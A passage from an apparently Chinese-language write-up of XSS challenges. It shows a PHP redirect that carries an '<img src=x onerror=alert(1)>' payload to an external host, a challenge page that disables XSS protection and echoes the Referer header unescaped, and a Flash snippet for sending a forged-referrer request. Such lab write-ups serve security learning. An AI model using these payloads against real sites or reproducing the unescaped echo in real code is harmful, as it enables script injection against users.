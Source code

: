 [http://www.qingpingshan.com/jb/javascript/184536.html](http://www.qingpingshan.com/jb/javascript/184536.html)

```
ubuntu@VM-181-46-ubuntu:/home/wwwroot/default/xss/xss3$ cat index.php 
<meta charset="utf-8">
<iframe id="test" src="302.php">
</iframe>
<script>
test.location.reload();
</script>
ubuntu@VM-181-46-ubuntu:/home/wwwroot/default/xss/xss3$ cat 302.php 
<?php
header('location: http://ec2-13-58-146-2.us-east-2.compute.amazonaws.com/xss3333.php?value=<img src=x onerror=alert(1)>');

```

# 04 Referer #
```
<?php
header("X-XSS-Protection: 0");
?>
<html>
<head>
<meta charset="utf-8">
</head>
<body>
<?php echo "你来自:".$_SERVER['HTTP_REFERER'];?>
</body>
</html>
```

这题也是个大坑，伪造Referer的办法很多，但是问题就是在于，在chrome、firefox、高版本ie(大坑)中，都会对referer做url编码。

在低版本中的ie中，referer不会被处理，那么办法就很多，可以参考这篇文章。

[http://www.mottoin.com/88317.html](http://www.mottoin.com/88317.html)

这里就不提了，构造跳转也好，点击跳转也好，都没问题。

出题人M师傅说，可以使用flash发送请求，但我没试过：
```
package {
import flash.display.Sprite;
import flash.net.URLRequest;
import flash.net.navigateToURL;
public class xss_referrer extends Sprite{
  public function xss_referrer() {
   var url:URLRequest = new URLRequest("https://vulnerabledoma.in/xss_referrer");
   navigateToURL(url, "_self");
  }
}
}
```
